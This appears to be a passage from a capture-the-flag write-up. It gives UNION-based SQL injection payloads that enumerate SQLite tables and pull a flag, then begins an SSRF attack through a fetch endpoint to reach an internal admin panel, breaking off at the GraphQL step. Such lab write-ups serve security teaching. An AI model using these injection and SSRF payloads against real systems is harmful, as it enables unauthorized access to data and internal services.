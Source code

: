 1. **Explore database structure with UNION-based injection:**
   ```sql
   ' UNION SELECT 1,2,3,4 --
   ```
   This helps us determine the number of columns (4) and their data types.

2. **Find table names:**
   ```sql
   ' UNION SELECT 1, name, 3, 4 FROM sqlite_master WHERE type='table' --
   ```
   This reveals the tables: `accounts`, `users`, `internal_data`, and `search_logs`.

3. **Find column names:**
   ```sql
   ' UNION SELECT 1,2,3,sql FROM sqlite_master WHERE tbl_name = 'internal_data' -- -
   ```

4. **Extract flag from internal_data table:**
   ```sql
   ' UNION SELECT 1, content, 3, 4 FROM internal_data --
   ```

**Flag:** `Spark{G00d_J0B_K1nG_Y0u_4R3_C00k1nGG_1ZSQMLK9LQSX21}`

---

## Challenge 5: Shadow Graph 2

**SSRF to GraphQL SQL Injection Exploitation**

### Step 1: Identifying Key Information

While inspecting the source code, we find two important notes:

From `/index.html`:
```html
<!-- Oops!! Check internal/admin for testing -->
```

From `/dashboard`:
```html
<!-- Note for admins only: Use the fetch utility for internal testing on port 4000 -->
```

These hints suggest that we need to access the internal admin panel via SSRF.

### Step 2: Exploiting SSRF to Gain Admin Access

To access the internal admin panel, we can exploit SSRF using the fetch utility:

```
https://shadow-two.espark.tn/fetch?url=http://localhost:4000/internal/admin
```

This allows us to escalate privileges and gain access as an admin.

### Step 3: Accessing GraphQL and Identifying Queries

Now that we have admin access, we navigate to the `/graphql` endpoint and explore the available queries:
